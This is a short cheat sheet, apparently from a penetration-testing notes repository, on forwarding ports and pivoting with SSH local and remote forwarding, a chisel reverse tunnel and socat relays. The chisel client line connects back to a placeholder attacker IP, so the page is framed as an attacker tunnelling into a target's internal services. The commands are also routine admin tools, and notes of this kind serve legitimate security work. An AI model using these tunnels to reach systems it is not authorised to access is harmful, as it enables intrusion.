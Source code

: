 ## Forwarding port using ssh, chisel & socat

### SSH

### Local Port Forwarding
```bash
ssh -L 8888:localhost:8888 -L 8888:localhost:8888 $USER@$TARGET
```

### Remote Port Forwarding
```bash
ssh -R 1234:127.0.0.1:8000 $USER@$TARGET
ssh -R 192.168.1.1:1234:192.168.1.2:8000 $USER@$TARGET
```

### Chisel
```bash
# Local
chisel server -p 9999 --reverse
# Target
chisel client <ip_attacker>:9999 R:<port_exposé>:<ip_service>:<port_service>
```

## Socat
```bash
# Local
socat tcp-listen:8080,fork tcp:$TARGET:80
# Target
socat tcp-listen:1234,fork,reuseaddr tcp:localhost:8080
```